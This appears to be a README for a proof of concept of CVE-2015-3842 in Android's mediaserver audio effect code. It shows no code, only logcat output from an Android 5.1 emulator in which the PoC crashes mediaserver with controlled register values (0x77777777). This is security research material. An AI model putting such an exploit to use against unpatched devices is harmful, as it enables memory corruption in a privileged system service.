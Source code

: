 poc of CVE-2015-3842

I debug in emulator, 5.1, x86, android-22

the output of logcat info :

I/AudioEffectPOC( 1873): ptr = 0xffffffffb4082b00
I/AudioEffectPOC( 1873): return = 0x0
--------- beginning of crash
F/libc    (  933): Fatal signal 11 (SIGSEGV), code 1, fault addr 0x77777783 in tid 1217 (AudioOut_2)
I/GenericSource(  933): start
I/Choreographer( 1353): Skipped 34 frames!  The application may be doing too much work on its main thread.
I/DEBUG   (  930): *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
I/DEBUG   (  930): Build fingerprint: 'generic_x86/sdk_phone_x86/generic_x86:5.1/LKY45/1737576:eng/test-keys'
I/DEBUG   (  930): Revision: '0'
I/DEBUG   (  930): ABI: 'x86'
I/DEBUG   (  930): pid: 933, tid: 1217, name: AudioOut_2  >>> /system/bin/mediaserver <<<
I/DEBUG   (  930): signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 0x77777783
W/NativeCrashListener( 1222): Couldn't find ProcessRecord for pid 933
I/DEBUG   (  930):     eax 00000016  ebx b76057a8  ecx 00000000  edx 00000003
E/DEBUG   (  930): AM write failure (32 / Broken pipe)
I/DEBUG   (  930):     esi 77777783  edi 77777777
I/DEBUG   (  930):     xcs 00000073  xds 0000007b  xes 0000007b  xfs 00000000  xss 0000007b
I/DEBUG   (  930):     eip b754d363  ebp 77777783  esp b55bfb80  flags 00010202
I/DEBUG   (  930):
I/DEBUG   (  930): backtrace:
I/DEBUG   (  930):     #00 pc 00022363  /system/lib/libc.so (pthread_mutex_lock+35)
I/DEBUG   (  930):     #01 pc 0005332b  /system/lib/libaudioflinger.so
I/DEBUG   (  930):     #02 pc 00037548  /system/lib/libaudioflinger.so
I/DEBUG   (  930):     #03 pc 000169de  /system/lib/libutils.so (android::Thread::_threadLoop(void*)+398)
I/DEBUG   (  930):     #04 pc 000160fa  /system/lib/libutils.so (thread_data_t::trampoline(thread_data_t const*)+122)
I/DEBUG   (  930):     #05 pc 000211a8  /system/lib/libc.so (__pthread_start(void*)+56)
I/DEBUG   (  930):     #06 pc 0001c529  /system/lib/libc.so (__start_thread+25)
I/DEBUG   (  930):     #07 pc 000130f6  /system/lib/libc.so (__bionic_clone+70)
